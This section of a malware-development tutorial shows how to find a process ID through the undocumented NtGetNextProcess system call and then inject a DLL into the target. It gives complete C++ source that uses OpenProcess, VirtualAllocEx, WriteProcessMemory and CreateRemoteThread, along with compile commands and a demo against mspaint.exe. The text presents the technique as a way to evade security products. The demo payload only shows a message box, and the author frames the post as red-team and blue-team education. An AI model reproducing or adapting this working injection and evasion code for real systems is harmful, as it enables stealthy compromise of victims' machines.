



\newpage
\subsection{43. malware development trick. Find PID via NtGetNextProcess. Simple C++ example}

﷽

{width="80%"}      

Today, I just want to focus my research on another malware development trick: enum processes and find PID via `NtGetNextProcess`. It is a common technique that can be used by malware for AV evasion also.     

### what's the trick?

We just simply utilize additional undocumented features. `NtGetNextProcess` is a system call made available by the kernel that retrieves the next process. But what does next mean? If you're familiar with Windows internals, you know that process objects are linked together in the kernel's massive linked list. Therefore, this system call takes the handle to a process object and locates the next process in the chain that the current user can access.       

### practical example

Everything is pretty simple:      

```cpp
int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}
```

This function scans all running processes in a Windows system and returns the Process ID (PID) of a process that matches the provided name. A `while` loop is started which continues until `myNtGetNextProcess` returns a non-zero value, indicating that there are no more processes. The handle of the next process is obtained by `myNtGetNextProcess` and stored in `current`. For each process, `GetProcessImageFileNameA` is used to get the image file name (the executable file of the process) and stores it in `procName`. If the base name of `procName` (obtained using `PathFindFileName`) matches `procname` (comparison is case-insensitive due to `lstrcmpiA`), the process ID of current is obtained.      

So, full source code is looks like this (`hack.cpp`):      

```cpp
/*
 * hack.cpp - find process ID by NtGetNextProcess. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html
*/
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#include <psapi.h>
#include <shlwapi.h>

#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  return 0;
}
```

### demo

Ok, let's go to look this trick in action.     

Compile it (`hack.cpp`):      

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```

{width="80%"}      

Then, just run it at the victim's machine (`Windows 10 22H2 x64` in my case):      

```powershell
.\hack.exe <process>
```

{width="80%"}      

As you can see, it's worked perfectly, as expected :) =^..^=    

### practical example 2. find and inject

Let's go to another example with malicious logic. Find process ID by name and inject DLL to it.      

Source code is similar to my [post](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html). The only difference is the logic of the `findMyProc` function (`hack2.cpp`):       

```cpp
/*
 * hack2.cpp - find process ID
 * by NtGetNextProcess and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html
*/
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#include <psapi.h>
#include <shlwapi.h>

#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT),
   PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;
}
```

As usually, for simplicity I create simple DLL with `meow from evil.dll!` messagebox (`evil.c`):      

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### demo 2

Ok, let's go to demonstration our injection.     

Compile it:      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```

{width="80%"}      

And run for find and inject to `mspaint.exe`:       

```powershell
.\hack2.exe mspaint.exe
```

{width="80%"}     

{width="80%"}     

As you can see, our messagebox is injected to `mspaint.exe` with `PID = 2568` as expected. Perfect! =^..^=     

As I wrote earlier, this trick can be used to bypass some cyber security solutions, since many systems only detect functions known to many like `CreateToolhelp32Snapshot`, `Process32First`, `Process32Next`. For the same reason, this can be difficult for many malware analysts.     

I haven't seen this trick in the real-life malware and APT attacks yet. I hope this post spreads awareness to the blue teamers of this interesting malware dev technique, and adds a weapon to the red teamers arsenal.      

[Find PID by name and inject to it. "Classic" implementation.](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html)       
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[Taking a Snapchot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-05-26-malware-tricks-30)           
